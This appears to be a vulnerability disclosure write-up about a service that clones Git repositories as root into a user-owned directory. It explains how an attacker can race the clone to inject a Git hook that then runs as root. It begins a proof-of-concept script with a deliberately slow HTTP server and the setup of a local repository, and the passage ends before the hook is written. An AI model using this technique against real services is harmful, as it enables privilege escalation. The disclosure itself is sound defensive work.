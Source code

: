 The simple-git package internally delegates to the `git` executable, which as the code comment notes, would run as root.

## Vulnerability 1: injecting a Git hook

This is the more interesting one, in my opinion.

Git clones by creating the `.git` directory, transferring the refs and objects from the remote, and checking out the default branch.
When it checks out a branch, such as at the end of the clone process, it may execute custom scripts called "hooks" if they've been set up.
Cloning would normally not execute any hooks, because the local repository has just been created, so no hooks would be set up (they're not transferred from the remote).

But because this service clones into a directory `/app` that is owned by the user, we can tamper with the `.git` directory to set up hooks while it's still transferring stuff from the remote.
Then, when it gets to checking out the default branch, it'll execute our hook as root.

Here's a proof of concept script I sent with my report, interspersed with new commentary.

### Sample exploitation

Racing against Git seems like it wouldn't be too hard, because cloning would have Git receive data over the internet.
In this script, we actually clone from another local repository to minimize the external dependencies.
But to give ourselves an advantage, I wrote this special server that intentionally adds huge delays.

```sh
cd /tmp
cat >delay.js <<'EOF'
require('http').createServer((req, res) => {
  console.log(`${req.method} ${req.url}`);
  const path = `.${req.url.split('?')[0]}`;
  // delay hehehe
  setTimeout(() => {
    require('fs').createReadStream(path).pipe(res);
  }, 1000);
}).listen(process.env.PORT, () => {
  console.log('listening');
});
EOF
```

And now we'll create a little repository for us to import.

```sh
mkdir s
cd s
git init
git config user.name w
git config user.email none
echo ok >f
git add f
git commit -m "A"
git show
```

